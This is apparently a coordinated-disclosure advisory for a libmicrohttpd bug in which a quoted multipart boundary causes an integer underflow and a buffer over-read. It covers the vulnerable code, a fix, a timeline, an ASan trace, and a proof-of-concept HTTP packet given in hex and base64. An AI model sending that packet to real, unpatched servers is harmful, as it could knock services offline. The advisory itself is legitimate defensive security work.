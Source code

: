 <h2><b><i>Summary</i></b></h2>

GNU libmicrohttpd version prior 0.9.75 version (included) is vulnerable to a remote DoS (Denial of Service) due to improper parsing of the multipart/form-data's `boundary` in MHD_create_post_processor() method.

Affected: libmicrohttpd 0.9.75 and older

<blockquote>
"GNU libmicrohttpd is a GNU package offering a C library that provides
a compact API and implementation of an HTTP 1.1 web server (HTTP 1.0
is also supported).  GNU libmicrohttpd only implements the HTTP 1.1
protocol.  The main application must still provide the application
logic to generate the content."
</blockquote>

(source: project's README.md)

-  [GNU libmicrohttpd's website](https://www.gnu.org/software/libmicrohttpd/)

- [0.9.76 release e-mail](https://lists.gnu.org/archive/html/libmicrohttpd/2023-02/msg00000.html)

- [The fix](https://git.gnunet.org/libmicrohttpd.git/commit/?id=6d6846e20bfdf4b3eb1b592c97520a532f724238)

CVE ID: Pending

CVSS (3.1): 5.9 (AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:H/E:U/RL:X/RC:X)

Discovered by:</br>
&ensp;hebi</br>
&ensp;Gynvael Coldwind</br>

Method of discovery:</br>
&ensp;Fuzzing

<h2><b><i>Vulnerability details</i></b></h2>

While fuzzing libmicrohttpd we've stumbled on a minor issue with boundary processing which – with some serious heap massaging – could lead to being able to crash MHD remotely.

The problem exists in `MHD_create_post_processor()` function here:

```
    blen = strlen (boundary);    // <-------- 1
    if ( (blen == 0) ||
         (blen * 2 + 2 > buffer_size) )
      return NULL;
    if ( (boundary[0] == '"') &&        // <-------- 2
         (boundary[blen - 1] == '"') )
    {
      /* remove enclosing quotes */
      ++boundary;
      blen -= 2;   // <-------- 3
    }
```

Assume the following boundary:
```
Content-Type:multipart/form-data; boundary="\0\0\0\0\0..."
```

Walking through the code we get:
  * Point 1: `blen = 1;` since for strlen boundary will be just `"` followed by null-bytes.
  * Point 2: both `boundary[0]` and `boundary[1 - 1]` are obviously `"`
  * Point 3: `blen -= 2` results in an unsigned integer underflow, i.e. 0xffffffffffffffff

Later in the `find_boundary()` function there's a `memcmp()` used to compare the potential boundary in the POST body with the previously found boundary:

```
  if ( (0 != memcmp ("--",
                     buf,
                     2)) ||
       (0 != memcmp (&buf[2],    // <--------- 4
                     boundary,
                     blen)))
  {
```

At Point 4 `blen` is equal to 0xffffffffffffffff, so if the `--` were at the end of the buffer (which is likely by zeroes which were in memory), we get a read buffer overrun.

As far as severity goes, we though about potential side-channel leaks here, but we came up with nothing. Furthermore, even trying to exploit this as a DoS with the standard GNU C library's malloc failed in our attempts (though we still can't rule out that it's possible).
However since MHD is used on embedded devices with their own malloc implementations, we decided to report this as a potential security issue directly to you.

At the end of the report we included a test HTTP packet (as hex dump and base64) and an AddressSanitizer report.

<h2><b><i>Proposed fix</i></b></h2>

A potential fix could be to check if `blen` is less than 2 inside that if at Point 2 above, and if so, just return `NULL`.

```
if (blen < 2){
  return NULL;
}
```

<h2><b><i>Timeline</i></b></h2>
<ul>
  <li>2023-02-13: Vulnerability discovered.</li>
  <li>2023-02-26: Vulnerability reported.</li>
  <li>2023-02-27: Vulnerability fixed, new release published</li>
  <li>2023-02-27: Details published (immediately due to triviality / low severity / being hard to exploit).</li>
  <li>2023-02-27: CVE requested.</li>
</ul>
<h2><b><i>Test packet:</i></b></h2>

```
00000000  50 4f 53 54 20 2f 20 48  54 54 50 2f 31 2e 31 0d  |POST / HTTP/1.1.|
00000010  0a 48 6f 73 74 3a 30 2e  30 2e 30 2e 30 0d 0a 43  |.Host:0.0.0.0..C|
00000020  6f 6e 74 65 6e 74 2d 54  79 70 65 3a 6d 75 6c 74  |ontent-Type:mult|
00000030  69 70 61 72 74 2f 66 6f  72 6d 2d 64 61 74 61 3b  |ipart/form-data;|
00000040  20 62 6f 75 6e 64 61 72  79 3d 22 00 41 22 0d 0a  | boundary=".A"..|
00000050  43 6f 6e 74 65 6e 74 2d  4c 65 6e 67 74 68 3a 34  |Content-Length:4|
00000060  0d 0a 0d 0a 2d 2d 00 41                           |....--.A|
00000068
```
Base64 encoded for convenience:
```
UE9TVCAvIEhUVFAvMS4xDQpIb3N0OjAuMC4wLjANCkNvbnRlbnQtVHlwZTptdWx0aXBhcnQvZm9y
bS1kYXRhOyBib3VuZGFyeT0iAEEiDQpDb250ZW50LUxlbmd0aDo0DQoNCi0tAEE=
```

<h2><b><i>AddressSanitizer report</i></b></h2>
Note: ASAN report is for a 32-bit version of libmicrohttpd, though it doesn't really matter.

```
==50113==ERROR: AddressSanitizer: negative-size-param: (size=-1)
    #0 0x56633acb in MemcmpInterceptorCommon(void*, int (*)(void const*, void const*, unsigned int), void const*, void const*, unsigned int) (/libmicrohttpd-0.9.75/simplepost+0x33acb)
    #1 0x56634170 in bcmp (/libmicrohttpd-0.9.75/simplepost+0x34170) 
    #2 0xf7ef1195 in find_boundary /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:934:14
    #3 0xf7eecea7 in post_process_multipart /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:1413:14
    #4 0xf7eecea7 in MHD_post_process /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:1632:12
    #5 0x566d929d in answer_to_connection /libmicrohttpd-0.9.75/../mhd_harness/simplepost.c:186:7
    #6 0xf7eb453a in process_request_body /libmicrohttpd-0.9.75/src/microhttpd/connection.c:3320:9
    #7 0xf7eb453a in MHD_connection_handle_idle /libmicrohttpd-0.9.75/src/microhttpd/connection.c:4596:9
    #8 0xf7ed9ff7 in call_handlers /libmicrohttpd-0.9.75/src/microhttpd/daemon.c:1221:11
    #9 0xf7ecce06 in MHD_epoll /libmicrohttpd-0.9.75/src/microhttpd/daemon.c:5145:5
    #10 0xf7ecfec3 in MHD_run_wait /libmicrohttpd-0.9.75/src/microhttpd/daemon.c:5277:11
    #11 0x566d902e in main /libmicrohttpd-0.9.75/../mhd_harness/simplepost.c:215:42
    #12 0xf7b4f518 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #13 0xf7b4f5f2 in __libc_start_main csu/../csu/libc-start.c:392:3
    #14 0x5661a4ca in _start (/libmicrohttpd-0.9.75/simplepost+0x1a4ca) 

0xf57039de is located 94 bytes inside of 609-byte region [0xf5703980,0xf5703be1)
allocated by thread T0 here:
    #0 0x5669be1c in __interceptor_calloc (/libmicrohttpd-0.9.75/simplepost+0x9be1c) 
    #1 0xf7eec197 in MHD_create_post_processor /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:326:22
    #2 0x566d930b in answer_to_connection /libmicrohttpd-0.9.75/../mhd_harness/simplepost.c:156:9

SUMMARY: AddressSanitizer: negative-size-param (/libmicrohttpd-0.9.75/simplepost+0x33acb)  in MemcmpInterceptorCommon(void*, int (*)(void const*, void const*, unsigned int), void const*, void const*, unsigned int)
==50113==ABORTING
```
